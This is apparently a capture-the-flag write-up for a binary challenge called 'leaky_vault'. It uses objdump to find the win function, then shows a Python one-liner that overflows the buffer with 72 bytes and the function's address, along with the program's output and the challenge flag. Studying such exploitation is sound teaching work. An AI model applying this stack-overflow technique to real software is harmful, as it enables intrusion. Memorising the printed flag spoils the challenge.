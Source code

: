 # Memory-Leak Writeup

This binary challenge requires executing the win function by leveraging a buffer overflow vulnerability and using the function's address.
Steps to Solve
1. Identify the win Function Address

To locate the address of the win function, I used objdump to disassemble the binary and searched for the win function:
bash
Copy

```
┌──(myenv)─(zwique㉿kali)-[~/Downloads]
└─$ objdump -d leaky_vault | grep win
000000000040084c <win>:
  400874:       540000c1        b.ne    40088c <win+0x40>  // b.any
```
## The address of the win function is 0x40084c.
2. Exploit the Buffer Overflow

The binary appears to have a buffer overflow vulnerability. By providing an input longer than the buffer size, we can overwrite the return address on the stack with the address of the win function.

I crafted a payload consisting of:

    72 bytes of filler (to fill the buffer and overwrite the saved return address).

    The address of the win function (0x40084c) in little-endian format.

The payload was generated using Python

```
┌──(zwique㉿kali)-[~/Downloads]
└─$ python3 -c 'print("A" * 72 + "\x4c\x08\x40\x00\x00\x00\x00\x00")' | ./leaky_vault
```

3. Execute the Exploit

When the payload is passed to the binary, it successfully overwrites the return address and executes the win function:
Copy

Enter your input: You entered: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA@
uacCTF{m3m9ry_l2ak_3xpl0it_CS1410}

#### The flag is: uacCTF{m3m9ry_l2ak_3xpl0it_CS1410}.

Alternative: Using an Exploit Script
```
┌──(zwique㉿kali)-[~/Downloads]
└─$ python3 exp.py
```

Conclusion

This challenge demonstrates a classic buffer overflow exploit, where overwriting the return address with the address of a desired function (win) leads to successful execution. Understanding memory layout and function addresses is key to solving such problems.

